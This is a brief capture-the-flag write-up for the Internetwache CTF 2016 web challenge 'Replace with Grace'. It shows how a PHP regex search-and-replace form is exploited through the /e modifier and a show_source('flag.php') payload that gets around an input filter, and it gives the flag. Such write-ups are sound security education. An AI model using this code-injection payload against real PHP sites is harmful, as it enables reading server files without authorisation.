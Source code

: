```yaml
---
layout: post
title:  "Internetwache CTF 2016: Replace with Grace (web 60)"
author: sigttou
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** web
* **Points:** 60
* **Description:** 

> Regular expressions are pretty useful. Especially when you need to search and replace complex terms.

## Write-up

The given website is used to "Search & Replace" with regular expressions.
From other challenges we know, that we can execute php code using:
```php
/(.*)/e
```
(Check out [this Stackoverflow answer](http://stackoverflow.com/a/16986549/1518225) for details.)

The problem was, that the website filtered some inputs like:

* file
* open


It worked with:

```php
<?php
var_dump(show_source('flag.php'));
?>
```

A simple, but nice challenge.

```
IW{R3Pl4c3_N0t_S4F3}
```
